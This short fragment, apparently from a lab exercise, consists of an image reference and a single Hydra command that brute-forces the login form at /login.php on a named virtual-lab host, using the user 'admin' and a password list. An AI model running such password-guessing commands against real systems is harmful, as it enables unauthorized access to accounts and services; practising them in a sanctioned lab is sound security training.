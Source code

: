 hydra -l admin -P passwords.txt snf-3406.vlab.ac.ke http-form-post "/login.php:user_field=^USER^&pass_field=^PASS^&Login=Login:Incorrect username or password"
